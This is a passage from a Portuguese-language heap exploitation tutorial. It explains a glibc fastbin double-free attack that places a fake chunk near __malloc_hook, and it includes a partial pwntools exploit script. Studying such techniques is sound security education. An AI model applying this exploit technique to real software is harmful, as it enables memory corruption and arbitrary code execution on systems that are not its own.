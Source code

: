 Utilizando o comando `dump bytes` ou simplesmente `db`, o GDB nos mostra o mapa da memória, que pode nos ajudar a visualizar o endereço, mostrando o `0x7f` seguido de bytes nulos, conforme abaixo.

![Mapa da memória](/img/papers/heap_p1/paper_heap1_135.png)

Olhando pela perspectiva da malloc, podemos utilizar este endereço, pois ela não checa o alinhamento do endereço, nem checa se as *flags* do chunk são válidas. Algumas combinações de *flags* podem causar um *crash*, porém, o `0f` funciona perfeitamente (*flags* são descritas nas seções anteriores).

Porém, existe um conhecimento importante nesta situação, em condições de produção este binário será submetido ao ASLR, o que significa que os endereços serão randômicos em toda a execução do programa.  
No entanto, na arquitetura **x86** da maioria das plataformas Linux, as bibliotecas sempre são mapeadas com endereços iniciados em `0x00007f`. E o endereço que estamos utilizando, que se inicia com o byte `0x7f`, faz parte da funcionalidade padrão `I/O`. Podemos confirmar com o comando `print`, conforme abaixo.

![Mapa da memória](/img/papers/heap_p1/paper_heap1_136.png)

Além disso, o *quadword* sequinte composto de zeros, é um *qwadword* de alinhamento que necessariamente será sempre nulo. Portanto, mesmo em condições de produção, sempre será possível obter este *size field* seguido de bytes nulos.

Com este conhecimento, podemos modificar nosso script. A primeira coisa que é preciso editar, é o alinhamento do *chunk* falso com o *size field* `0x7f` substituindo o endereço da `free_hook()` pela `malloc hook` e subtraindo 35 bytes, pois esta é a distância entre ela e o endereço do *chunk* falso.  
Depois, podemos substituir todas as requisições de *chunks* de `0x30` bytes, para *chunks* de `0x70` bytes, isso para que nosso *size field* possa ser comparado com a *fastbin*, sem que haja nenhum erro durante a checagem.  
Por ultimo, precisamos adicionar 19 bytes de "lixo" no início dos dados que vamos escrever no *chunk* falso, porque o primeiro *quadword* do *user data* não estará mais alinhado com a `malloc hook`.

O bloco de exploração ficou desta forma:

```py
#===============EXPLOITING================#

# enviando o username
username = p64(0) + p64(0x31)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# requisitando 2 chunks de 0x30 bytes
chunk_A = malloc(0x68, b"A"*0x68)
chunk_B = malloc(0x68, b"B"*0x68)

# liberando os chunks
free(chunk_A)
free(chunk_B)
free(chunk_A)

# criando um chunk fake que aponta para o "malloc hook"
dup = malloc(0x68, p64(lib.sym.__malloc_hook - 35))

# requisitando o chunk B
malloc(0x68, b"A")
```